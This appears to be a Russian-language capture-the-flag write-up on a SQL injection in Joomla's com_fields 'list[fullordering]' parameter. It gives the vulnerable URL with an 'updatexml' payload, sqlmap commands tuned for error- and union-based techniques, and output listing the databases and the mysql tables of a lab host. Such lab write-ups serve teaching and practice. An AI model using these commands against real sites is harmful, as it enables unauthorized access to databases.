 ![exploit_db](screenshots/00.exploit-db.png)

Уязвимый параметр `list[fullordering]`
`http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27`

Предлагаемая команда
```bash
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

Но `boolean-based blind` и `time-based blind` будут долго обрабатываться, поэтому немного скорректировал команду
```bash
sqlmap -u "http://10.10.154.91/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=3 --random-agent --dbms=mysql --technique=UE --dbs -p list[fullordering]
```

В результате нашел 5 баз данных
```bash
available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test
```

**mysql db tables**
```bash
sqlmap -u "http://10.10.154.91/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=3 --random-agent --dbms=mysql --technique=UE -D mysql --tables -p list[fullordering]
```
```bash
Database: mysql
[24 tables]
+---------------------------+
| event                     |
| host                      |
| plugin                    |
| user                      |
| columns_priv              |
| db                        |
```